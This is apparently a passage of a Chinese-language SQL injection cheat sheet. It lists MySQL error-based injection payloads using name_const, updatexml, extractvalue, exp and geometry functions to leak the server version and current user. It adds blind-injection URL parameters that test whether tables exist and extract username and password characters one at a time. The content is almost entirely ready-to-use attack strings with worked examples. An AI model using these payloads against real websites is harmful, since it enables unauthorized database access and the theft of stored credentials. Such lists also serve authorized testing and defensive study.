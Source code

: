 
**方法2，使用name_const：**

	select 1 from (select name_const(version(),1),name_const(version(),1))x

例如：

	select name,password from test.user where id=1 union select 1 from (select name_const(version(),1), name_const(version(), 1))x;

**方法3，使用updatexml：**

	updatexml(1,concat(0x3a,user()),1)

例如：

	select name,password from test.user where id=2 and updatexml(1,concat(0x3a,user()),1);

**方法4，使用extractvalue：**

	extractvalue(1, concat(0x5c,version()))

例如：

	select name,password from test.user where id=2 and extractvalue(1, concat(0x5c, version()));

**方法5，使用exp：**

	exp(~(select*from(select user())x))

例如：

	select name,password from test.user where id=exp(~(select*from(select user())x));

**方法6，使用GeometryCollection：**

	GeometryCollection((select * from (select * from(select user())a)b))
	polygon((select * from (select * from(select user())a)b))
	multipoint((select * from (select * from(select user())a)b))
	multilinestring((select * from (select * from(select user())a)b))
	multipolygon((select * from (select * from(select user())a)b))
	linestring((select * from (select * from(select user())a)b))

例如：

	select name,password from test.user where id=2 and GeometryCollection((select * from (select * from(select user())a)b));

---

## 7 盲注（待补充）

利用and a=b盲注

例如：
	
	?id=1 and substring(@@version,1,1)=5
    ?id=5 and (select 1 from users limit 0,1)=1   猜解users表是否存在
    ?id=5 and (select substring(concat(1,password),1,1) from users limit 0,1)=1  猜解列名
    ?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80
